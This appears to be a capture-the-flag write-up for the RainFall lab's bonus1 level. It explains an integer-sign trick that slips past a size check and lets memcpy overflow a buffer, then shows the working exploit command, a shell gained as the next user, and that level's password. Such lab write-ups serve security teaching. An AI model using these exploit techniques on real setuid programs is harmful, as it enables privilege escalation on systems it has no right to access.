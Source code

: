 # bonus1

## Header

```bash
ssh bonus1@192.168.64.9 -p 4242
...
  GCC stack protector support:            Enabled
  Strict user copy checks:                Disabled
  Restrict /dev/mem access:               Enabled
  Restrict /dev/kmem access:              Enabled
  grsecurity / PaX: No GRKERNSEC
  Kernel Heap Hardening: No KERNHEAP
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/bonus1/bonus1
```

<hr>

## Solution

Multiplication to any number that power of 2 is just binary left shifting to log2(number) bits.

Let's look at this proof:

Source:
```c
#include <stdio.h>
#include <math.h>

int main()
{
    const int m = 4;
    int i = -2147483648 + 11;
    printf("%zu\n", (size_t)i * m);
    printf("%zu\n", (size_t)(i << (int)log2(m)));
    return 0;
}
```

Output:
```bash
bonus1@RainFall:/tmp$ gcc -std=c99 -o check src.c -lm
bonus1@RainFall:/tmp$ ./check
44
44
```

To execute `/bin/sh`, res should be equal to `0x574f4c46`.
```c
if (res == 0x574f4c46) {
    execl("/bin/sh", "sh", NULL);
}
```

To do that, let's use unprotected `memcpy`, that overflows the buffer of 40 bytes and overwrites `res` value.

So, to hack this level we need to pass the number that will be equal to 44 if left shift of 2 will be applied to it. <br>
`11` is `1011` in binary form or `00000000 00000000 00000000 00001011` in 4 byte form. But the most signinficant bit represents the sign in signed numbers. <br>
We cannot pass `11` because there is a number validation that accepts only numbers <= 9. <br>
But we can pass its negative equivalent `10000000 00000000 00000000 00001011` as the signed bit will be erased by bit shifting operation.

And `10000000 00000000 00000000 00001011` is `-2147483637`

Now, it's time to exploit:
```bash
bonus1@RainFall:~$ ./bonus1 "-2147483637" $(python -c 'print "\x57\x4f\x4c\x46"[::-1] * 11')
$ whoami
bonus2
$ id
uid=2011(bonus1) gid=2011(bonus1) euid=2012(bonus2) egid=100(users) groups=2012(bonus2),100(users),2011(bonus1)
$ pwd
/home/user/bonus1
$ cd ../bonus2
$ ls -la
total 17
dr-xr-x---+ 1 bonus2 bonus2   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 bonus2 bonus2  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 bonus2 bonus2 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 bonus3 users  5664 Mar  6  2016 bonus2
-rw-r--r--+ 1 bonus2 bonus2   65 Sep 23  2015 .pass
-rw-r--r--  1 bonus2 bonus2  675 Apr  3  2012 .profile
$ cat .pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```

## References
- [about 0x0(,%eax,4),%ecx](https://stackoverflow.com/questions/37239885/what-is-leal-edx-edx-4-eax-means)
- [binary convertation](https://www.rapidtables.com/convert/number/binary-to-decimal.html)
- [binary calculator](https://www.calculator.net/binary-calculator.html)